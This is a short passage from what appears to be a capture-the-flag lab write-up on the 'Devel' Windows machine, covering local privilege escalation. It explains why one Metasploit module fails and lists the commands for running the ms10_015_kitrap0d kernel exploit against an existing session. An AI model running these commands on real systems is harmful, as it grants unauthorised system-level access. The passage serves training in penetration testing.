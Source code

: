![](/Windows/Windows-Easy/Devel/Screenshots/potentialdevel.png)

Going down the list, `bypassauc_eventvwr` fails due to the IIS user not being a part of the
administrators group, which is the default and to be expected. The second option,
`ms10_015_kitrap0d`, does the trick.

###### code

```sh
use exploit/windows/local/ms10_015_kitrap0d
options
sessions
set SESSION 7
run
```

###### output

![](/Windows/Windows-Easy/Devel/Screenshots/kitproddevel.png)